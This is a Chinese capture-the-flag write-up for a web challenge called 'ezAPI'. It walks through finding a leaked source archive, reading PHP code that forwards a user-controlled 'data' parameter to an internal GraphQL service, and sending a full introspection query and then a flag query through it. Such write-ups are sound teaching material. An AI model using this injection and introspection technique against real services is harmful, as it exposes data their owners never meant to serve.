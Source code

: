 



![img](https://peekaboo.show/content/images/2022/11/807c18bb11faaa6a722bdef4c6235e52.png)



# Week2 ezAPI 200





#### 0、知识点与工具

>   graphql 查询

>   目录扫描工具：御剑



#### 1、页面情况

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117142929.png)



‌

>   页面很简洁就一个输入框，可以输入用户的id

>   测试后发现用户id的范围为：1~6，超出这个范围会返回这个信息

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117143243.png)



‌

##### 查看源代码，发现一条“提示信息？”，看不懂

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000006.png)



#### 2、使用御剑扫描一下网址目录

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/7WBHY%7BB$$RP7%7B%60%7B2FLN%5B9%606.png)



‌

>   访问下载www.zip

#### 3、分析其中的php代码

‌

```php
<?php
    error_reporting(0);

    // 传入参数id
    $id = $_POST['id'];


    // $str = $id
    // 对id进行过滤，id中必须含有数字，非数字部分会被替换为空
    function waf($str)
    {
        if (!is_numeric($str) || preg_replace("/[0-9]/", "", $str) !== "") {
            return False;
        } else {
            return True;
        }
    }

    // 发送查询的数据并返回结果
    function send($data)
    {
        $options = array(
            'http' => array(
                'method' => 'POST',
                'header' => 'Content-type: application/json',
                'content' => $data,
                'timeout' => 10 * 60
            )
        );

        $context = stream_context_create($options);
        $result = file_get_contents("http://graphql:8080/v1/graphql", false, $context);
        return $result;
    }

    // 首先判断id是否为空
    if (isset($id)) {

        // id进行waf过滤
        if (waf($id)) {

            // 需要在传入一个参数data, 会根据data是否为空执行代码
            // 如果data不为空，使用data的值，为空使用默认的值
                /**
                * '{
                *       "query":"query{
                *           users_user_by_pk(id:' . $id . ') {
                *                name
                *           }
                *        }", 
                *        "variables":null
                *  }';
                * 
                * 
                */
            isset($_POST['data']) ? $data = $_POST['data'] : $data = '{"query":"query{\nusers_user_by_pk(id:' . $id . ') {\nname\n}\n}\n", "variables":null}';

            // 接收结果并将结果对JSON格式的字符串进行解码
            $res = json_decode(send($data));

            // 查询结果中的name不为空就将其展示到页面上，否则输出找不到
            if ($res->data->users_user_by_pk->name !== NULL) {
                echo "ID: " . $id . "<br>Name: " . $res->data->users_user_by_pk->name;
            } else {
                echo "<b>Can't found it!</b><br><br>DEBUG: ";
                var_dump($res->data);
            }
        } else {
            die("<b>Hacker! Only Number!</b>");
        }
    } else {
        die("<b>No Data?</b>");
    }
?>
```



‌

>   关于graphql查询，有一种查询方式可以查询所有该API端点的所有信息

‌

```
{"query":"\n    query IntrospectionQuery {\r\n      __schema {\r\n        queryType { name }\r\n        mutationType { name }\r\n        subscriptionType { name }\r\n        types {\r\n          ...FullType\r\n        }\r\n        directives {\r\n          name\r\n          description\r\n          locations\r\n          args {\r\n            ...InputValue\r\n          }\r\n        }\r\n      }\r\n    }\r\n\r\n    fragment FullType on __Type {\r\n      kind\r\n      name\r\n      description\r\n      fields(includeDeprecated: true) {\r\n        name\r\n        description\r\n        args {\r\n          ...InputValue\r\n        }\r\n        type {\r\n          ...TypeRef\r\n        }\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      inputFields {\r\n        ...InputValue\r\n      }\r\n      interfaces {\r\n        ...TypeRef\r\n      }\r\n      enumValues(includeDeprecated: true) {\r\n        name\r\n        description\r\n        isDeprecated\r\n        deprecationReason\r\n      }\r\n      possibleTypes {\r\n        ...TypeRef\r\n      }\r\n    }\r\n\r\n    fragment InputValue on __InputValue {\r\n      name\r\n      description\r\n      type { ...TypeRef }\r\n      defaultValue\r\n    }\r\n\r\n    fragment TypeRef on __Type {\r\n      kind\r\n      name\r\n      ofType {\r\n        kind\r\n        name\r\n        ofType {\r\n          kind\r\n          name\r\n          ofType {\r\n            kind\r\n            name\r\n            ofType {\r\n              kind\r\n              name\r\n              ofType {\r\n                kind\r\n                name\r\n                ofType {\r\n                  kind\r\n                  name\r\n                  ofType {\r\n                    kind\r\n                    name\r\n                  }\r\n                }\r\n              }\r\n            }\r\n          }\r\n        }\r\n      }\r\n    }\r\n  ","variables":null}
```



>   然后将上面这个放入data中，然后去执行就会返回所有信息，然后在返回信息中搜索一下flag

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117161755.png)



>   这样就找到flag所在的类的名称：ffffllllaaagggg_1n_h3r3_flag

>   然后在构造data查询

‌

```
{"query":"query{\nffffllllaaagggg_1n_h3r3_flag{\nflag\n}\n}\n", "variables":null}

// 直观点查看
{
	"query":"query{
    		ffffllllaaagggg_1n_h3r3_flag{
            	flag
            }
    	}",
    "variables":null
}
```



#### 4、结果

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117162630.png)



‌

>   关于graphql的资料可以看看这个

‌

https://mp.weixin.qq.com/s/gp2jGrLPllsh5xn7vn9BwQ

‌

